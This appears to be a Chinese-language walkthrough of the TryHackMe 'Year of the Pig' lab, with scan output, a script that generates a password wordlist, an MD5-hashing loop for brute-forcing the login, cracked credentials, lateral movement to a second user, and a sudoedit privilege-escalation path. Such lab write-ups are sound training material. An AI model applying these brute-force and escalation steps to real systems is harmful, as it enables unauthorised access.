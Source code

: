 ```yaml
---
sidebar_position: 174
tags: [Easy, Linux, 密码生成, 信息泄露, SUDO]
title: "Year of the Pig"
description: "Year of the Pig"
sidebar_label: "Year of the Pig"
slug: /tryhackme/174
---
```


# Year of the Pig

## 端口扫描

```bash
root@ip-10-10-214-144:~/yearofthepig# nmap -sTCV -p- --min-rate 1000 10.10.31.194

Starting Nmap 7.60 ( https://nmap.org ) at 2023-11-04 09:43 GMT
Nmap scan report for ip-10-10-31-194.eu-west-1.compute.internal (10.10.31.194)
Host is up (0.00036s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Marco's Blog
MAC Address: 02:88:C4:7F:C8:67 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.27 seconds
```

## 80

```bash
root@ip-10-10-214-144:~/yearofthepig# gobuster dir -u http://10.10.31.194 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.31.194
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     html,php,txt
[+] Timeout:        10s
===============================================================
2023/11/04 09:44:10 Starting gobuster
===============================================================
/index.html (Status: 200)
/login.php (Status: 200)
/admin (Status: 301)
/assets (Status: 301)
/css (Status: 301)
/js (Status: 301)
/api (Status: 301)
/server-status (Status: 403)
===============================================================
2023/11/04 09:45:53 Finished
===============================================================
```

当我进行访问后, 发现其可能的利用位置在于登陆之处,因为其存在一个提示信息

![image-20240709203556519](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-203558.png)



所以我们应该搜集网站的一些单词来组成字典进行攻击, 在文章中作者提到其最喜欢 `savoia` 飞机, 我们可以尝试基于此来进行攻击

![image-20240709203547412](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-203549.png)

```python
import string
str1 = "savoia"
for i in range(100):
    for sp in string.punctuation:
        print(f"{str1.upper()} {str(i).zfill(2)}{sp}")
        print(f"{str1.lower()} {str(i).zfill(2)}{sp}")
```

使用此生成密码字典后, 进行一些简单的操作

```python
root@ip-10-10-214-144:~/yearofthepig# python main.py > pass.txt
root@ip-10-10-214-144:~/yearofthepig# cat pass.txt | md5sum
b2030298d79d4135a5e1c1eaf91282cc  -
root@ip-10-10-214-144:~/yearofthepig# while IFS= read -r line; do
>    echo -n "$line "
>    echo -n "$line" | md5sum | awk '{print $1}'
> done < pass.txt > word.txt
```

之后进行爆破, 得到账号: `marco:savoia21!`  同时使用此进行登陆管理页面:

- 发现一个命令执行页面, 但是存在某些限制
- 发现两个用户 : marco、curtis,

![image-20240709203612275](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-203613.png)

## 后渗透

### marco

使用得到的账号进行 SSH 登陆

![image-20240709203623618](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-203625.png)

### marco —> curtis

因为之前在网站中发现 curtis 用户, 同时 marco 用户存在密码重用问题, 所以 curtis 用户应该也是一样的思路, 查看网站资源文件后, 发现其是读取 `/var/www/admin.db` 但是这个文件只有 `www-data` 用户有权限操作, 同时 marco 用户属于 `web-developers` 组从名字来看这是一个 web 用户我们可以尝试利用 marco 用户修改网站的文件 - 上面不能使用的命令执行文件, 修改 `admin.db` 的权限来实现读取, 并且查看 `admin.db` 文件发现其中存在一个密码同时可以解密![image-20240709203631898](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-203633.png)

![image-20240709203640586](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-203642.png)

### curtis —> root

我发现用户 curtis 存在 SUDO 权限, 同时我也发现了利用方式, 但是我们首先要使用 marco 用户创建对应的 `config.php` 文件

```bash
curtis@year-of-the-pig:/home$ sudo -l
[sudo] password for curtis: 
Matching Defaults entries for curtis on year-of-the-pig:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH"

User curtis may run the following commands on year-of-the-pig:
    (ALL : ALL) sudoedit /var/www/html/*/*/config.php
```

[Sudoedit Privilege Escalation | Exploit Notes](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudoedit-privilege-escalation/)

![image-20240709203649810](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-203651.png)